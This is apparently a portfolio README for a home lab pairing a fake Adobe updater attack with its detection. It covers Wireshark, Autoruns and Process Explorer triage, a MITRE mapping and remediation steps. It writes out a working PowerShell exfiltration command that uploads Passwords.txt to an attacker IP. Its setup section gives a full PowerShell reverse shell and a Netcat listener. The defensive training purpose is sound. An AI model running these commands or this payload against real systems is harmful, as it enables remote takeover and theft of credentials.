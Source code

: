 ### 💀 AdobeUpdater Intrusion Lab: Red Team Attack + Blue Team Detection 🛡️
---

> ⚠️ This project is designed to showcase my understanding of both **offensive** and **defensive** security workflows.  
> It was specifically created to demonstrate my skills to hiring managers for roles related to **SOC analysis**, and will later be expanded into a **full lab environment** that others can use to sharpen their detection skills.
---
> This lab focuses on one specific attack path and corresponding detection workflow. While there are many techniques I could have explored, this scenario was chosen to demonstrate core red team execution and blue team triage in a clear, focused, end-to-end simulation.

---

## 🧠 About This Lab

This hands-on intrusion simulation demonstrates the *full attack chain* — from phishing execution to post-exploitation — followed by detailed detection and investigation using tools like **Wireshark**, **Autoruns**, and **Process Explorer**.

I created everything from scratch:
- The **fake Adobe Updater** dropper (`.hta` with VBScript)
- Embedded **Base64-encoded PowerShell** for a reverse shell
- **Registry persistence** and stealth icon spoofing
- A custom **Python upload server** to simulate exfiltration

🧩 The walkthrough is split into two perspectives:
- 💀 **Red Team:** Step-by-step attack execution
- 🛡️ **Blue Team:** Detection and triage workflow
- 
---

## 🌌 Technical Overview

This simulation uses a **fake Adobe Updater UI** (`.hta`) that deploys:

- **PowerShell reverse shell** to a remote Netcat listener  
- **Registry Run key persistence**  
- **Stealthy VBScript execution**  
- **Decoy visuals** to enhance realism  
- **Base64 encoding and realistic icon spoofing**

🧪 Intended for ethical red team demonstrations, SOC analyst training, and future expansion into a full detection engineering lab.

The project directory is organized as follows:

## 📁 Project Structure
```
.
├── payload/ # HTA payload and artifacts
│ ├── AdobeUpdater.hta # Main dropper with embedded VBScript and UI
│ ├── adobe.ico # Spoofed Adobe icon
│ ├── adb1.png # Decoy loading screen
│ └── .gitkeep
├── analysis/
│ └── screenshots/ # All demo screenshots (1.png–27.png + kt1.png/kt2.png)
├── README.md
```
## 🔄 How It Works

1. **User executes** the `.hta` payload mimicking a legitimate Adobe updater.
2. Payload runs an embedded VBScript, which:
 - **Launches a PowerShell reverse shell**
 - **Adds a `Run` registry key for persistence**
 - **Displays a fake update window to distract the user**
3. **Reverse shell is caught** by the attacker's Netcat listener.

---

## 👁️ Demo Walkthrough

### 1. Attacker Prepares for Callback and File Exfiltration 

*On the attacker’s side, two terminals are opened — one to catch a reverse shell as shown in Figure 1, and<br>
one to handle file uploads as shown in Figure 2.*
<br><sub>(Figure 1)</sub><br>
<img src="analysis/screenshots/kt2.png" alt="Kali Terminal: Netcat Listener" width="75%"><br>
<em>In this terminal a Netcat listener is started on port 443 for the reverse shell.</em>
<br><sub>(Figure 2)</sub><br>
<img src="analysis/screenshots/kt1.png" alt="Kali Terminal: Upload Server" width="75%"><br>
<em>In this terminal, the attacker starts a Python upload server on port 8080.</em>
</p>

---

### 2. Fake Adobe Updater
*The malicious shortcut on the desktop mimics a genuine Adobe software updater.*
<br><sub>(Figure 3)</sub><br>
![Desktop Shortcut](analysis/screenshots/2.png)<br> 
*When the victim clicks on the decoy updater as shown in Figure 3, a window with a fake "critical security updates" message appears.<br> 
Once the OK button is clicked the connection is made back to the Netcat listener as shown in Figure 6*
<br><sub>(Figure 4)</sub><br>
![Installer Popup](analysis/screenshots/3.png)  
<br><sub>(Figure 5)</sub><br>
![Progress Bar](analysis/screenshots/4.png)  
*For an added, realistic effect a fake progress bar is shown
to mask the malicious activity.*<br>

---
### 3. Payload Execution & Reverse Shell Connection Made
*In Figure 6, we can see the attacker successfully catches the reverse shell and a connection is now established from the victim’s machine back to the attacker's Netcat listener.
Next, the attacker runs the `ls` command to list the contents of the current working directory.*
<br><sub>(Figure 6)</sub><br>
<img src="analysis/screenshots/5.png" alt="Payload connects" width="65%"><br>

### 4. Attacker Navigates the File System
*In Figure 7, the attacker begins backing out of the current directory using the `cd` command repeating `cd ..` until reaching the user's home directory.
They then run the `ls` command again and spot the Documents directory witch is there target.*
<br><sub>(Figure 7)</sub><br>
<img src="analysis/screenshots/6.png" alt="Directory listing" width="65%"><br>

*Figure 8 shows the attacker using the `cd` command to enter the Documents directory.*
<br><sub>(Figure 8)</sub><br>
<img src="analysis/screenshots/7.png" alt="Navigating directories" width="65%"><br>

*In Figure 9, we see the attacker has successfully navigated into the Documents folder. Inside, they spot a file named Passwords.txt.*
<br><sub>(Figure 9)</sub><br>
<img src="analysis/screenshots/8.png" alt="Accessing Documents" width="65%"><br>

---

### 5. Second Stage of the Attack: Uploading the File
*Now that the attacker has successfully navigated through the file system and reached the Documents directory, they’ve located the Passwords.txt file.
At this point they’re ready to begin the second stage of the attack. They’ve almost reached Step 7 of the Cyber Kill Chain — Actions on Objectives — but not quite yet.*

---
*In Figure 10, we can see the attacker preparing to use a PowerShell command with the PUT method to upload the Passwords.txt file to their Python-based upload server.*
<br><sub>(Figure 10)</sub><br>
<img src="analysis/screenshots/11.png" alt="Upload success" width="65%"><br>

*Refer to **Figure 11** for how the exfiltration command is constructed.*
<br><sub>(Figure 11)</sub><br>
<img src="analysis/screenshots/9.png" alt="PowerShell Exfiltration Command Reference" width="75%"><br>
Then, run the following PowerShell command to upload the `Passwords.txt` file to the attacker's Python server:
 ```powershell
powershell -c "Invoke-WebRequest -Uri http://192.168.78.129:8080/Passwords.txt -Method Put -InFile 'C:\Users\IEUser\Documents\Passwords.txt'"
# ⚠️ Make sure to update the IP address to match your attacker's listener
```
---
*In Figure 12, we return to the second terminal first mentioned in Figure 2. This is the terminal running the Python upload server on port 8080, and you'll notice it’s still idle. For this demo, the folder containing the Python script has been opened and placed at the bottom of the screen. The reason: if anything gets uploaded, we’ll see it appear here in real-time. As of now, there are only four files in the directory.*
<br><sub>(Figure 12)</sub><br>
<img src="analysis/screenshots/10.png" alt="Exfiltration command" width="65%"><br>

*Next in Figure 13, after the PowerShell command from Figure 10 is run, we get a hit — the `Passwords.txt` file is displayed in the command line output. And just like we talked about in Figure 12, the folder now shows five files, one of them being `Passwords.txt,` confirming the upload was successful.*
<br><sub>(Figure 13)</sub><br>
<img src="analysis/screenshots/12.png" alt="Wireshark: TCP stream" width="65%"><br>

---
## 🛡️ Defender’s Perspective: Detecting the Attack in Action

Now that we’ve followed the attacker’s full playbook — from clicking the fake Adobe updater to catching a reverse shell and exfiltrating `Passwords.txt` — let’s switch gears and step into the defender’s shoes.

This next section walks through how security analysts can spot and respond to this kind of behavior using network traffic analysis tools like Wireshark, autorun entries, and Process Explorer.

---

In **Figure 14**, we have a Wireshark capture that was running during the attack. In this screenshot, we can see a `PUT` request made for the `Passwords.txt` file — indicating possible data exfiltration over HTTP.
<br><sub>(Figure 14)</sub><br>
<img src="analysis/screenshots/13.png" alt="Wireshark: HTTP PUT" width="75%"><br>

In **Figure 15**, now that we’ve confirmed a PUT request occurred, we can filter the capture to isolate it. To do this, we type the following into Wireshark’s display filter bar `http.request.method == "PUT"`
Then hit the **blue arrow** in the top-right to apply the filter.
<br><sub>(Figure 15)</sub><br>
<img src="analysis/screenshots/15.png" alt="Wireshark Focused" width="75%"><br>

In **Figure 16**, we see there was only one `PUT` request made, which confirms our earlier finding — the exfiltrated file was `Passwords.txt`.
<br><sub>(Figure 16)</sub><br>
<img src="analysis/screenshots/16.png" alt="Follow Stream" width="75%"><br>

Next, in **Figure 17**, if we right-click on the filtered packet and choose **Follow > HTTP Stream** (highlighted in blue). This allows us to view the entire payload of the HTTP session and validate what was transferred.
<br><sub>(Figure 17)</sub><br>
<img src="analysis/screenshots/18.png" alt="Exfiltrated Contents" width="65%"><br>

In **Figure 18**, after following the HTTP stream, we can see the full contents of the `PUT` request — exposing exactly what the attacker exfiltrated.
We also see other important details, such as the server responding with a `201 Created` status, confirming a successful upload. The `User-Agent` header shows the transfer was performed using `Python/3.11.9`, pointing to Python’s built-in `http.server` module.
An internal host sending a `PUT` request over port 8080 using non-standard tools like this should raise red flags during packet inspection.
<br><sub>(Figure 18)</sub><br>
<img src="analysis/screenshots/19.png" alt="Autoruns Registry" width="65%"><br>

---
### 🔍 Persistence Detection via Autoruns and Registry Analysis

In this section, we identify how the attacker achieved persistence using a registry-based autorun entry. The screenshots below walk through the detection process using Sysinternals Autoruns and the Windows Registry Editor.

---

**Figure 19** shows a suspicious autorun entry under:`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
The entry is named `AdobeTaskHelper`, but it's launching `powershell.exe` instead of a legitimate Adobe executable. This is an immediate red flag.<br>
There is no known Adobe tool that launches via PowerShell, and the naming is clearly meant to blend in with trusted vendor software.
<br><sub>(Figure 19)</sub><br>
<img src="analysis/screenshots/20.png" alt="Registry Key Contents" width="65%"><br>

Next, in **Figure 20** we can right-click the suspicious entry in Autoruns and choose **Jump to Entry** to check the corresponding registry location for validation.
<br><sub>(Figure 20)</sub><br>
<img src="analysis/screenshots/21.png" alt="Process Explorer Powershell" width="65%"><br>

**Figure 21** confirms the full registry key using **Regedit**. The `AdobeTaskHelper` entry executes the following command at startup:<br>`powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command ...`
This PowerShell command is used to maintain persistence by silently relaunching the attacker’s reverse shell payload on system boot. Combined with the misleading name and stealthy execution, this is a textbook example of registry-based persistence via PowerShell masquerading.
<br><sub>(Figure 21)</sub><br>
<img src="analysis/screenshots/22.png" alt="Process Image Path" width="65%"><br>

---
### 🔍 Process Inspection with Process Explorer

This section highlights suspicious process behavior observed using Sysinternals Process Explorer. 

---
**Figure 22** shows a suspicious `powershell.exe` process running under the user `IEUser`. This process is not expected under normal conditions and does not match any known authorized scripts.
<br><sub>(Figure 22)</sub><br>
<img src="analysis/screenshots/23.png" alt="TCP/IP Connections" width="65%"><br>

**Figure 23** drills into the process properties of `powershell.exe`. The command line confirms it’s executing with<br>
`-ExecutionPolicy Bypass -WindowStyle Hidden`, which is commonly used to evade detection. The **current directory** is also telling — it's set to:`C:\Users\IEUser\Downloads\Test Malware\AdobeUpdater\` This aligns directly with the malicious payload path.
<br><sub>(Figure 23)</sub><br>
<img src="analysis/screenshots/24.png" alt="Payload Directory" width="55%"><br>

**Figure 24** shows the **TCP/IP** tab of the same process, confirming it has an active network connection to:`192.168.78.129:HTTPS`<br>This indicates that the PowerShell process is maintaining a live connection — supporting evidence of a reverse shell callback.
<br><sub>(Figure 24)</sub><br>
<img src="analysis/screenshots/25.png" alt="Payload Shortcut" width="55%"><br>

**Figure 25** shows the PowerShell process’s working directory alongside the actual folder contents in File Explorer. The folder contains the Adobe files including the shortcut named `AdobeUpdater` — which was placed on the user’s desktop.This shortcut is what the user initially interacted with, triggering the chain of events. This visually confirms how the attack was disguised as a legitimate update and how the user was tricked into executing it.
<br><sub>(Figure 25)</sub><br>
<img src="analysis/screenshots/27.png" alt="Attacker Listener" width="65%"><br>

---


## 📃 MITRE ATT&CK Mapping

| Technique         | ID         | Description                        |
|------------------|------------|------------------------------------|
| Initial Access    | T1204.002  | User Execution via HTA             |
| Execution         | T1059.001  | PowerShell                         |
| Persistence       | T1547.001  | Registry Run Key                   |
| Defense Evasion   | T1218.005  | LOLBAS via `wscript.exe`           |
| Command & Control | T1071.001  | Reverse Shell over TCP             |


---

## 🔧 Remediation and Recommendations

### 🧹 Immediate Cleanup

- **Delete the following malicious files from disk:**
 `C:\Users\IEUser\Downloads\Test Malware\AdobeUpdater\AdobeUpdater.hta`
- Any downloaded reverse shell payloads saved to `%TEMP%`
- **Remove registry-based persistence:**
  - Delete the `Run` key entry:
    `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\AdobeTaskHelper`

---

### 🔐 Credential Response

- **Passwords.txt was exfiltrated.** All credentials listed in that file must be considered compromised and changed immediately.
- Review logs to confirm there were no unauthorized logins using the compromised credentials.
- Ensure password rotation policies are enforced for both local accounts and external services.
- Investigate for signs of lateral movement or reuse of these credentials elsewhere in the environment.

---

### 🔒 System Hardening

- **Block outbound traffic** to the attacker IP: `192.168.78.129` (or any future simulation IPs).
- **Restrict execution of `.hta` and `.vbs` files** via Group Policy or application allowlisting.
- **Disable Windows Script Host (WSH)** on systems where it is not required:
 - Set the following registry key: 
   `HKLM\Software\Microsoft\Windows Script Host\Settings`
   `Enabled = 0`
 
---

## 📜 Certifications & Training

- **Cyber Defense Certified Professional** – Vanguard 10 *(Level Effect)*  
- **Practical Malware Analysis & Triage** – TCM Security  
- **zSecurity Course Certification** – Ethical Hacking  
- **Practical SOC Analyst Associate (PSAA)** *(planned)*  
- **Associate of Applied Science** – Information Technology Specialist  
  *University of Alaska Fairbanks – 2023*

> Built, not bought. These certs represent real work — not checkbox training. Every one of them directly feeds into the lab above.

---


## 🚧 This section is under construction. **Full Lab Replication Coming Soon !🚧**  
This section will include a full step-by-step guide for recreating the AdobeUpdater attack lab, including payload setup, reverse shell callback, and detection tuning.

---
> ⚠️ Educational Use Only:  
> The following code is shown as part of a red team simulation in a controlled lab environment. Do **not** use this on unauthorized systems.

## Setup Instructions 
## 🧪 PowerShell Reverse Shell (Payload)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.78.129",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()

```

1. **Start Netcat listener on Kali**
   ```bash
   nc -lvnp 443
   ```

2. **Serve the payload**
   ```bash
   cd payload/
   python3 -m http.server 8888
   ```

3. **Trigger on victim**
   - Browse to hosted `.hta` from Windows VM
   - Execute it

---

## 🗋 Notes

- Tested on Windows 10 with default settings
- Avoid running on production systems
- Always use in an isolated lab environment

> **Disclaimer:** For educational use only. Do not deploy on unauthorized systems.

---
